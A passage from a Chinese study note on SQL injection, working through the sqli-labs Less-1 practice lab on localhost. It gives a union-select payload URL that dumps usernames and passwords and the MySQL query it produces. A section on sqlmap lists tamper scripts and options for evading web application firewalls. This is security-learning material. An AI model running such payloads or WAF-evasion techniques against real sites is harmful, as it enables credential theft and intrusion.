 ![1567442287394](005_第六周—数据库相关注入语句的收集和学习\1567442287394.png)

**(4)爆数据**

```
http://127.0.0.1/sqllib/Less-1/?id=-1%27union%20select%201,username,password%20from%20users%20where%20id=2--+
```

**执行的MYSQL语句：**

```
SELECT * FROM users WHERE id='-1'union select 1,username,password from users where id=2-- ' LIMIT 0,1
```

![1567442470735](005_第六周—数据库相关注入语句的收集和学习\1567442470735.png)

# 五、sqlmap原理

- 

- - 

    

# 六、拓展  sqlmap tamper原理

sqlmap在默认的的情况下除了使用char()函数防止出现单引号，没有对注入的数据进行修改，还可以使用–tamper参数对数据做修改来绕过waf等设备。

## 6x01 自带tamper列表

```
sqlmap -u [url] --tamper [模块名]
```

sqlmap的绕过脚本在目录`usr/share/golismero/tools/sqlmap/tamper`下 ；

kali在/usr/share/sqlmap/tamper；
可以使用--identify-waf对一些网站是否有安全防护进行试探

| 序号 | 脚本名称                  | 注释                                   |
| :--- | :------------------------ | :------------------------------------- |
| 1    | 0x2char                   | 将每个编码后的字符转换为等价表达       |
| 2    | apostrophemask            | 单引号替换为Utf8字符                   |
| 3    | apostrophenullencode      | 替换双引号为%00%27                     |
| 4    | appendnullbyte            | 有效代码后添加%00                      |
| 5    | base64encode              | 使用base64编码                         |
| 6    | between                   | 比较符替换为between                    |
| 7    | bluecoat                  | 空格替换为随机空白字符，等号替换为like |